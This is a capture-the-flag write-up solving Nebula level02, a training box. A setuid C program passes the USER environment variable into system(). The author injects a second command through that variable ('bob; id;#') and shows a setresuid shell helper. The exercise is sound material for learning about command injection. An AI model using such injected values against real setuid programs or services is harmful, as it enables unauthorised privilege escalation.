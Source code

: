 ## level02

[Level02's Description](https://exploit-exercises.com/nebula/level02/):

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

With the description we are provided with the source code of a small C program:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

Level02 is very similar to Level01, except for that fact that here the line `/bin/echo %s is cool` is copied to `buffer` and eventually put through a `system()` call. The value of the current environment variable `USER` is added to the command. This is another easy exploit where a simple shell escape will do to get us our own shell. I prepped the shell to echo the word bob, the delimit the command with a ; character and specify the command I want to run. I then end it off with a hash (#) to ignore the rest of the commands that the program has hard coded (*is cool* in this case).

So, to solve level02:

```bash
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool

level02@nebula:/home/flag02$ USER="bob" && ./flag02
about to call system("/bin/echo bob is cool")
bob is cool

level02@nebula:/home/flag02$ cat /var/tmp/shell.c
#include<stdio.h>

int main(void) {
    setresuid(geteuid(), geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}

level02@nebula:/home/flag02$ USER="bob; id;#" && ./flag02
```